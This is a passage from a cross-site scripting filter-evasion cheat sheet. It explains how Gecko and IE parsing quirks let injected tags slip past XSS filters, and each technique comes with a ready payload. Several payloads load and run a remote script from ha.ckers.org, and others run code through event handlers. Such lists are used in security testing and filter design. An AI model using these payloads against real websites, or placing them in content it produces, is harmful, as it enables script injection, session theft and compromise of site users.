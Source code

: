 				The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example “<SCRIPT\s” != “<SCRIPT/XSS\s”:
				1
				<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

				Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc…) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:
				1
				<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

				Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.
				1
				<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>


				Extraneous open brackets

				Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:
				1
				<<SCRIPT>alert("XSS");//<</SCRIPT>


				No closing script tags

				In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don’t actually need the “></SCRIPT>” portion of this Cross Site Scripting vector. Firefox assumes it’s safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn’t effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they’re not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:
				1
				<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >


				Protocol resolution in script tags

				This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh’s protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a </SCRIPT> tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The “.j” is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.
				1
				<SCRIPT SRC=//ha.ckers.org/.j>


				Half open HTML/JavaScript XSS vector
